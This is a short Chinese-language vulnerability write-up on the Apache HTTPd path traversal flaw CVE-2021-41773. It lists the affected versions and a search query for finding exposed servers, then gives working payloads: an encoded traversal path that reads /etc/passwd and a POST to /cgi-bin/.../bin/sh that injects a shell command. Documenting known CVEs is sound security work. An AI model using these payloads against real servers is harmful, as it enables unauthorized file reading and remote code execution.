

# Apache HTTPd 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件

## 漏洞影响

```
Apache HTTPd 2.4.49~2.4.50版本
```

## 网络测绘

```
server="Apache/2.4.49"
```

## 漏洞复现

Chorme插件Wappalyzer获取 Apache版本


验证POC

```
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```



开启CGI的情况下可RCE

```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  
B=|id>/tmp/id_txt
```